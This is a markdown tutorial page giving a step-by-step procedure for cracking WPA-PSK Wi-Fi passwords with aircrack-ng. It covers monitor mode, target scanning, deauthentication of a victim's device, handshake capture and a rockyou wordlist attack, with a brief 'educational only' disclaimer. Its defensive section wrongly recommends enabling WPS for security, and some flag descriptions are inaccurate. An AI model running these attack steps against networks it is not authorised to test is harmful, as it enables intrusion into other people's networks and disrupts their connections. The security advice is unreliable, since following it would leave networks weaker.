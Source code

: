 ```yaml
---
title: WPA-PSK Hacking Guide
layout: default
nav_order: 5
---
```


# **WPA-PSK HACKING GUIDE**

When you enable Wi-Fi in public places, you'll encounter numerous networks that likely utilize **WPA-PSK (Wi-Fi Protected Access Pre-Shared Key) encryption**, which is commonly used in wireless networks to secure data transmission.

While it offers a level of security, there are **vulnerabilities** to consider. This guide will explore one of the most common methods of hacking **WPA-PSK** networks.

{: .warning-title }
Although these networks are susceptible to hacking, it is crucial to emphasize that this guide is **strictly for educational purposes**. Engaging in these activities on networks without proper authorization is **illegal**. This is for **educational purposes only**. Having addressed this disclaimer, let's explore the underlying mechanisms, the practical execution, and measures to safeguard yourself against such vulnerabilities.

## **Introduction**

When you connect to a network from a wireless device, a **handshake** is sent from the device to the **router**. This **handshake** contains the **encrypted password**.

While it's not possible to reverse the **encrypted password**, you can use a technique called a **word list attack**. A word list is a huge text file containing **thousands of passwords**. By comparing the encrypted **handshake** password with the passwords in the word list, you can determine the real password.

## **Requirements**

- `Linux` distro distribution;
- PC with a network card that supports `monitor mode`;
- Install the package `Aircrack-ng` with the command `sudo apt install aircrack-ng`;

## **Procedure**

### **Determine the Network Interface**

<div class="code-example" markdown="1">
Identify the wireless network interfaces, which usually start with (e.g. `wlp3s0`).
<br>This information will be needed later.
</div>
```bash
ip a
```

{: .important-title }
The "ip a" command in Linux displays network interface information, including **IP addresses**, **MAC addresses**, and **related configurations**. It is used for troubleshooting and network configuration purposes.

### **Enable Monitor Mode**

<div class="code-example" markdown="1">
Use the `airmon-ng` tool to switch your network card to monitor mode.
<br>It will break your internet connection temporarily.
</div>
```bash
airmon-ng start <wireless interface>
```

### **Verify Monitor Mode**

<div class="code-example" markdown="1">
Now, the wireless interface should be displayed as `<interface>mon` (e.g., `wlp3s0mon`).
<br>Run the command and It should appear `Mode: Monitor`.
</div>
```bash
iwconfig
```

{: .important-title }
If the wireless interface doesn't appear, it means your network card **doesn't support monitor mode**, and you'll need the external network card mentioned earlier.

### **Scan for Networks**

<div class="code-example" markdown="1">
Use `airodump-ng` to view the networks around you.
<br>This command will display a list of nearby networks along with their `BSSIDs` **(Network MAC Addresses)** and `channels`.
</div>
```bash
airodump-ng <wireless interface>mon
```

### **Target Network**

<div class="code-example" markdown="1">
Identify and copy/save the `BSSID` and `channel` of the network you wish to attack.
</div>

### **Capture the Handshake**

<div class="code-example" markdown="1">
This command will show all the devices currently connected to that network and the amount of `packets` being sent to each device.
<br>For example, watching a video will increase the number of packets sent to the device by a lot.
<br>Type this command in a new terminal window:
</div>
```bash
airodump-ng -d(--bssid) <BSSID> -w(--write) <filename> -c(--channel) <channel>  <wireless interface>mon
```

- `<BSSID>` - target network's BSSID;
- `<channel>` - target network's channel;
- `<filename>` - the desired name for the captured handshake file;
- `<wireless interface>mon` - the name of your wireless interface in monitor mode;

### **Deauthentication Attack**

<div class="code-example" markdown="1">
Now we need to to send `de-authentication packets` to the victim's device, forcing it to disconnect and reconnect to the network, so we can capture the `handshake`.
<br>Leave the previous terminal open (running) and use this command in another terminal:
</div>
```bash
aireplay-ng -0 10 -a <BSSID> -c <client ESSID> <wireless interface>mon
```

- `-0 10` - number of de-authentication packets to send;
- `-a <BSSID>` - target network's BSSID;
- `-c <client ESSID>` - ESSID (name) of the device you want to de-authenticate;
- `<wireless interface>mon` - the name of your wireless interface in monitor mode;

### **Capture the Handshake**

<div class="code-example" markdown="1">
Observe the terminal running `airodump-ng` capture the `handshake` and wait for the device to reconnect.
<br>Once the handshake is captured, you can see a message saying `WPA handshake: <BSSID>`.
<br>You can stop `airodump-ng` by pressing `Ctrl+C`.
<br>The captured handshake will be saved in the specified filename.
</div>

### **Word List Attack**
<div class="code-example" markdown="1">
Kali Linux comes with pre-installed word lists located in the directory `/usr/share/wordlists`.
<br>If you are not on Kali, you can download a word list from [here](https://www.kali.org/tools/wordlists).
<br>Now let's attempt to match the captured handshake with passwords from the word list.
</div>
```bash
aircrack-ng -w <wordlist> <filename>
```

- `<wordlist>` - path to the desired word list file (e.g. **/usr/share/wordlists/rockyou.txt**);
- `<filename>` - name of the captured **handshake** file;

### **Cracked!**
<div class="code-example" markdown="1">
Congratulations! If the password is found in the word list, it will be displayed.
<br>After performing these steps, your internet connection may still be interrupted.
<br>To fix this, you can either restart your computer or execute the command:
</div>
```bash
airmon-ng stop <monitor interface>
systemctl restart network*
```

## **Protecting Yourself**
While you cannot prevent the authentication process, you can protect against word list attacks by choosing a long and random password that is unlikely to be found in any word list, like passphrases. Additionally, you can enable `MAC address filtering` and `WPS` **(Wi-Fi Protected Setup)** to enhance security.

## **Conclusion**
We explored the process of WPA-PSK hacking. It is essential to respect **privacy** and **legality** when using these techniques. We learned about capturing `handshakes`, performing `de-authentication attacks`, and cracking passwords using `word lists`. Remember to always use this knowledge responsibly and protect yourself.